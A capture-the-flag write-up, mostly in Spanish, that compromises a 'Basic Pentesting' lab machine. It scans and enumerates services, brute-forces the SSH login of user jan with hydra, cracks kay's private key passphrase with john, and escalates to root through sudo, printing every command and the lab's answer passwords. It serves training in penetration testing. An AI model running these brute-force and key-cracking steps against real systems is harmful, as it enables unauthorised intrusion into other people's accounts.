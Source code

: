 In these set of tasks you'll learn the following:

- brute forcing 
- hash cracking 
- service enumeration
- Linux Enumeration

Empezamos con un scan a todos los puertos:

``` bash
sudo nmap -p- -Pn --min-rate 5000 10.10.32.85
```

``` bash
Nmap scan report for 10.10.32.85
Host is up (0.051s latency).
Not shown: 65529 closed tcp ports (reset)
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
8009/tcp open  ajp13
8080/tcp open  http-proxy
```

obtenemos varios puertos abiertos, escaneamos cada puerto para que nmap nos de las versiones de los servicios y haga scripts por defecto para enumerar los servicios:

1. **Find the services exposed by the machine:** 

``` bash
sudo nmap -p22,80,139,445,8009,8080 -sCV 10.10.32.85
```

``` shell
Nmap scan report for 10.10.32.85
Host is up (0.048s latency).

PORT     STATE SERVICE     VERSION
22/tcp   open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 db:45:cb:be:4a:8b:71:f8:e9:31:42:ae:ff:f8:45:e4 (RSA)
|   256 09:b9:b9:1c:e0:bf:0e:1c:6f:7f:fe:8e:5f:20:1b:ce (ECDSA)
|_  256 a5:68:2b:22:5f:98:4a:62:21:3d:a2:e2:c5:a9:f7:c2 (ED25519)
80/tcp   open  http        Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesnt have a title (text/html).
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
8009/tcp open  ajp13       Apache Jserv (Protocol v1.3)
| ajp-methods: 
|_  Supported methods: GET HEAD POST OPTIONS
8080/tcp open  http        Apache Tomcat 9.0.7
|_http-title: Apache Tomcat/9.0.7
|_http-favicon: Apache Tomcat
|_http-open-proxy: Proxy might be redirecting requests
Service Info: Host: BASIC2; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_nbstat: NetBIOS name: BASIC2, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.3.11-Ubuntu)
|   Computer name: basic2
|   NetBIOS computer name: BASIC2\x00
|   Domain name: \x00
|   FQDN: basic2
|_  System time: 2024-05-12T12:02:28-04:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-time: 
|   date: 2024-05-12T16:02:28
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
|_clock-skew: mean: 1h20m00s, deviation: 2h18m34s, median: 0s

```

enumeramos el servicio http para la primera respuesta de la maquina:

2. **What is the name of the hidden directory on the web server(enter name without /)?**

usaremos gobuster  para enumerar los directorios web:

``` bash
gobuster dir -u 10.10.32.85 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

![gobuster-basicpentesting.png](/img/gobuster-basicpentesting.png)

la respuesta es: **development**


en el directorio development encontraremos un idexado de archivos 

![IndexDirBasicPents.png](/img/IndexDirBasicPents.png)

dev.txt:
```
2018-04-23: I've been messing with that struts stuff, and it's pretty cool! I think it might be neat
to host that on this server too. Haven't made any real web apps yet, but I have tried that example
you get to show off how it works (and it's the REST version of the example!). Oh, and right now I'm 
using version 2.5.12, because other versions were giving me trouble. -K

2018-04-22: SMB has been configured. -K

2018-04-21: I got Apache set up. Will put in our content later. -J
```

j.txt:
```
For J:

I've been auditing the contents of /etc/shadow to make sure we don't have any weak credentials,
and I was able to crack your hash really easily. You know our password policy, so please follow
it? Change that password ASAP.

-K
```

Aqui podemos deducir que hay dos ususarios, por ahora J y K y que J tiene una paswor debil, por lo que vamos a usar fuerza bruta en el servicio ssh con hydra.

**User brute-forcing to find the username & password**

**What is the username?**

Enumeraremos el servicio SAMBA con enum4linux:

``` bash
enum4linux <IP-TARGET>
```

y obtenemos el domain name:
``` bash
Domain Name: WORKGROUP
```

y los usuarios :
``` bash
[+] Enumerating users using SID S-1-22-1 and logon username '', password ''

S-1-22-1-1000 Unix User\kay (Local User)
S-1-22-1-1001 Unix User\jan (Local User)
```

a acontinucion usamos hydra para hacer fuerza bruta con el ussuario Jan en el servicio ssh ya que en el mensaje que encontramos en el directorio development sabemos que tien una pass debil.

``` bash
hydra -l jan -P /usr/share/wordlists/rockyou.txt ssh://10.10.32.85
```

y tras un largo cafe obtenemos la password
![passBasicPents.png](/img/passBasicPents.png)
 la respuesta es: **armando**


Entramos al servicio ssh como jan y tras recorrer las capretas de ususario entramos a la carpeta de kay y vemos esto

![dirKayBPENTS.png](/img/dirKayBPENTS.png)

entramos en la carpeta .ssh y vemos el id_rsa de kay

![is_rsaBSPENTS.png](/img/is_rsaBSPENTS.png)

asi que suaremos la herramienta john para obtener la contraseña del id_rsa, primero nos creamos un archivo pegando todo el id_rsa y con ssh2john hasheamos el id_rsa.

``` bash
nano kay_id_rsa
# copiamos dentro del nano el texto del id_rsa
ssh2john kay_id_rsa > hashjohn.txt
# despues usamos john para crackear la contraseña
/usr/sbin/john --wordlist=/usr/share/wordlists/rockyou.txt hashjohn.txt
```

![kayHash.png](/img/kayHash.png)

y obtenemos la contraseña: **beeswax**

entramos al ssh de kay usando su id_rsa:

![sshKay.png](/img/sshKay.png)

nos vamos al home de kay y leemos el archivo pass.bak, con esto obtenemos la ultima pregunta :
**What is the final password you obtain?**

```
heresareallystrongpasswordthatfollowsthepasswordpolicy$$"
```

con esto ya estaria la maquina hecho pero vamos a hacernos root, con el ususario de kay hacemos un sudo -l para ver los permisos sudo que tenemos, ponemos la contraseña anteriormente encontrada y obtenemos esto

![PrivKay.png](/img/PrivKay.png)

tenemos permisos para todo, así que para ser ususario root lo tenemos que hacer el cambio de ususario :

```
sudo -su root
```

y obtenemos root:
![kayRoot.png](/img/kayRoot.png)

y ya estaría la maquina completamente vulnerada.

